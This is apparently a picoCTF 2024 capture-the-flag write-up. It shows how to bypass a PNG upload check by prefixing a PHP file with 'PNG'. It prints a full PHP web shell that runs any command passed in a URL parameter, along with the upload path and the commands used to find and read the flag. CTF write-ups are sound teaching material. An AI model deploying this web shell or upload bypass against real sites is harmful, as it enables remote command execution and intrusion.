# Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#browser_webshell_solvable_<br>

I found a web app that can help process images: PNG images only!

## Solution

At first, I tried uploading a PNG file to see what happens on the website and in Burp Suite.<br>

![image](https://github.com/user-attachments/assets/65d68ea5-46d5-471b-a432-3da81d544cca)
**This is what I got from the website: it says the uploaded file is a valid PNG file. Now it is time to investigate how the system defines a PNG file.*<br>

![image](https://github.com/user-attachments/assets/707cc9a2-1e0d-4cc9-aa22-1205b33da0e3)
**This is the result I got from Burp Suite. From the raw data shown, we can see that the system defines PNG files by checking the first few characters, "PNG".*

Hence, through observation, we can create a PHP script by adding 'PNG' as the first few characters and then insert the script into the system folder. We believe the uploaded files will be stored in the 'uploads' folder, which can be easily accessed through the site. <br>

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
**This is the script that we will use. Insert this php script into a notepad and save as ***flag.png.php***. Then upload this file to the system and we'll get a successful message.*<br>

To get use of the script inserted, we then go to the website to get the file uploaded by adding the uploaded file path ***/uploads/flag.png.php*** to the site ***http://atlas.picoctf.net:60355***. We will use this field to enter a command `find / -name '*.txt'` to list down all the txt file.<br>

![image](https://github.com/user-attachments/assets/1615bc9d-cf02-43e7-8dce-a983f9b04bd9)
**This is the list of all txt files. There is a suspicious file name, which is ***/var/www/html/GAZWIMLEGU2DQ.txt***. So I decided to open it to have a look by inputting the command `cat /var/www/html/GAZWIMLEGU2DQ.txt`.*<br>

![image](https://github.com/user-attachments/assets/710971f2-22f1-41e2-8325-cb6f19784c64)
**Here you got the flag.*
